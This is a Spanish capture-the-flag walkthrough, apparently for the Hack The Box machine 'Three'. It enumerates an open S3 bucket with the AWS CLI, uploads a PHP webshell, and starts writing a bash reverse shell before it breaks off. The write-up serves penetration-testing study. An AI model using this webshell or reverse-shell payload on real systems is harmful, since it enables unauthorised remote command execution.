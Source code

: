 Existen múltiples herramientas para enumerar este servicio, pero como es mi primera vez explotándolo, prefiero hacerlo de manera manual. Comienzo descargando `sudo apt update && sudo apt install awscli` y luego lo configuro con el comando `aws configure`

![Three yw4rf](three-15.png)

**[La documentación oficial de AWS s3](https://docs.aws.amazon.com/cli/latest/reference/s3/ls.html)** indica que es posible usar `ls` para listar los buckets s3

![Three yw4rf](three-16.png)

Con el comando `aws --endpoint-url http://s3.thetoppers.htb/ s3 ls`, le indico que quiero listar los **buckets S3** alojados en el servidor, y me devuelve: `thetoppers.htb`

![Three yw4rf](three-17.png)

Con el comando `aws --endpoint-url http://s3.thetoppers.htb/ s3 ls s3://thetoppers.htb`, le indico que quiero listar el contenido del **bucket S3** `thetoppers.htb`

![Three yw4rf](three-18.png)

Parece que los directorios `images/`, `.htaccess` y `index.php` son los archivos del sitio web Apache alojado en el puerto 80 descubierto en el escaneo. Por lo tanto, efectivamente Apache está utilizando este **bucket S3** como almacenamiento para el sitio web principal

**[La documentación oficial de AWS s3](https://docs.aws.amazon.com/cli/latest/reference/s3/cp.html)** indica que es posible copiar archivos del sistema local al **bucket s3**.

![Three yw4rf](three-19.png)

Teniendo en cuenta que la página ejecuta **PHP**, es posible subir desde nuestro sistema local un archivo `.php` con el objetivo de obtener una **webshell**. Primero indicamos el contenido del archivo con `echo` y luego lo guardamos en el archivo `shell.php` con el comando: `echo '<?php system($_GET["cmd"]); ?>' > shell.php`, lo que nos permite ejecutar comandos del sistema operativo desde el servidor donde se aloja el archivo utilizando el parámetro `cmd` desde la URL:

- **`system()`**: Es una función de PHP que ejecuta un comando del sistema operativo y muestra su salida.
- **`$_GET["cmd"]`**: Recibe el valor del parámetro `cmd` de la URL o de una petición HTTP GET. Este valor se pasa directamente a la función `system()`.

Luego de crear el archivo, lo subimos al **bucket S3** con el comando `aws --endpoint-url http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

![Three yw4rf](three-20.png)

Para comprobar que la **webshell** funciona correctamente, nos dirigimos directamente al archivo creado desde el sitio web y ejecutamos el comando `id` desde el cmd: `http://thetoppers.htb/shell.php?cmd=id`

![Three yw4rf](three-21.png)

Como vemos, la **webshell** funcionó correctamente. Ahora podemos aprovechar esto para utilizar una **reverse shell**. Primero usamos `echo` para escribir el comando y guardarlo en el archivo `webshell.sh` con el comando: `echo "/bin/bash -i >& /dev/tcp/<DIRECCION IP>/<PUERTO> 0>&1" > webshell.sh`
